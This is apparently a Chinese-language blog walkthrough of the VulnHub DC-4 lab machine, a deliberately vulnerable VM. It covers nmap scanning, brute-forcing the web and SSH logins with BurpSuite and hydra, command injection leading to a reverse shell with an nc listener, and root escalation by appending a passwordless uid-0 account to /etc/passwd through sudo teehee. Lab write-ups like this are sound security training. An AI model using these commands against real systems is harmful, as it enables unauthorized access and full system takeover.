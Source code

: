 ```yaml
---
title: "VulnHub-DC4"
layout: post
date: 2021-12-09 19:38
image: 
headerImage: false
tag:
- web
- vulnhub
category: blog
author: NoThxJ
description: VulnHub
---
```


环境下载地址：

https://www.five86.com/dc-4.html

环境搭建：

VirtualBox打开DC-4，将usb控制器取消勾选，MAC地址设定为：为所有网卡重新生成MAC地址，其它保持默认，导入。

![1](https://havocykp.github.io/assets/images/img_blog6/1.png)

设置连接方式：桥接

选择自己的无线网卡

![2](https://havocykp.github.io/assets/images/img_blog6/2.png)

启动运行

![3](https://havocykp.github.io/assets/images/img_blog6/3.png)

信息收集

Nmap探测目标IP

命令：nmap -sP 192.168.2.0/24

目标IP：192.168.2.206

![4](https://havocykp.github.io/assets/images/img_blog6/4.png)

或者通过MAC地址确定目标IP

利用nmap对目标主机进行 端口综合扫描，发现开放了22、80端口

```javascript
┌─[root@pendo]─[~]
└──╼ #nmap -sT -sV -A -T5 192.168.2.206 -p-
命令参数说明：
  -sT: TCP端口扫描
  -sV: 端口对应的服务探测
  -A:  综合扫描
  -T5: 时间选项（T0 - T5）,T5 速度最快，准确率低
  -p-: 全端口 1-65535
```

![5](https://havocykp.github.io/assets/images/img_blog6/5.png)

漏洞利用

访问：<http://192.168.2.206/>，发现是一个web登录框，考虑万能密码、注入、爆破

![6](https://havocykp.github.io/assets/images/img_blog6/6.png)

使用dirsearch扫描，发现每个页面重定向到 index.php

![7](https://havocykp.github.io/assets/images/img_blog6/7.png)

使用httpie查看command.php，该页面提示需要登录才能执行任何操作

除了登录之外别无他法，所以暴力破解

```javascript
┌─[✗]─[root@pendo]─[~]
└──╼ #http http://192.168.2.206/command.php 
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Sun, 05 Sep 2021 02:36:28 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: index.php
Pragma: no-cache
Server: nginx/1.15.10
Set-Cookie: PHPSESSID=1rpg4vt3pek0oc6hfoj7d4hck7; path=/
Transfer-Encoding: chunked

<html>
<head>
<title>System Tools - Command</title>
<link rel="stylesheet" href="css/styles.css">
</head>

<body>
	<div class="container">
		<div class="inner">
		
					
			<form method="post" action="command.php">
				<strong>Run Command:</strong><br>
				<input type="radio" name="radio" value="ls -l" checked="checked">List Files<br />
				<input type="radio" name="radio" value="du -h">Disk Usage<br />
				<input type="radio" name="radio" value="df -h">Disk Free<br />
				<p>
				<input type="submit" name="submit" value="Run">
			</form>
			
			You need to be logged in to use this system.<p><a href='index.php'>Click to Log In Again</a>			
		</div>
	</div>
</body>
</html>

```

页面提示是admin登录框，直接拿admin账户进行爆破（工具使用BurpSuite）

账号：admin

密码：happy

![8](https://havocykp.github.io/assets/images/img_blog6/8.png)

登录后台发现可执行命令

![9](https://havocykp.github.io/assets/images/img_blog6/9.png)

尝试burpsuite抓包

![10](https://havocykp.github.io/assets/images/img_blog6/10.png)

修改命令，设置反弹shell

![11](https://havocykp.github.io/assets/images/img_blog6/11.png)

端口监听

nc -lvvp 9999

![12](https://havocykp.github.io/assets/images/img_blog6/12.png)

使用python打开一个标准的shell

python -c 'import pty;pty.spawn("/bin/bash")'

![13](https://havocykp.github.io/assets/images/img_blog6/13.png)

切换到 /home目录下，查看用户目录

![14](https://havocykp.github.io/assets/images/img_blog6/14.png)

在backups文件里面发现历史密码

![15](https://havocykp.github.io/assets/images/img_blog6/15.png)

使用burpsuite将密码导出来

![16](https://havocykp.github.io/assets/images/img_blog6/16.png)

然后使用 hydra 进行ssh爆破

```javascript
命令：
┌──[pendo@pendo]─[~]
└──╼ $hydra -l jim -P pass.txt ssh://192.168.2.206 -t 6 -f -vV
```

账户：jim

密码：jibril04

![17](https://havocykp.github.io/assets/images/img_blog6/17.png)

根据得到的用户/密码，登录ssh

```javascript
命令：
┌─[pendo@pendo]─[~]
└──╼ $ssh jim@192.168.2.206
```

![18](https://havocykp.github.io/assets/images/img_blog6/18.png)


登录提示邮件，查看 /var/mail 查看邮件内有 charles的密码

用户名：charles

密码：^xHhA&hvim0y

![19](https://havocykp.github.io/assets/images/img_blog6/19.png)

登录charles，并查看charles的权限

![20](https://havocykp.github.io/assets/images/img_blog6/20.png)

信息收集发现可以免密码使用 sudo /usr/bin/teehee

命令: cd /usr/bin ，然后 teehee --help 查看teehee的用法

![21](https://havocykp.github.io/assets/images/img_blog6/21.png)

提权方法，利用teehee加载内容到文件中获取root权限，使用 teehee -a 把一个账号写进 /etc/passwd里，这个用户就会拥有root权限，然后切换到这个用户即可

```javascript
命令：
charles@dc-4:/usr/bin$ echo "pendo::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

![22](https://havocykp.github.io/assets/images/img_blog6/22.png)

直接拿到 root权限，得到最终的 flag

![23](https://havocykp.github.io/assets/images/img_blog6/23.png)

```javascript
pendo::0:0:::/bin/bash
```

![24](https://havocykp.github.io/assets/images/img_blog6/24.png)

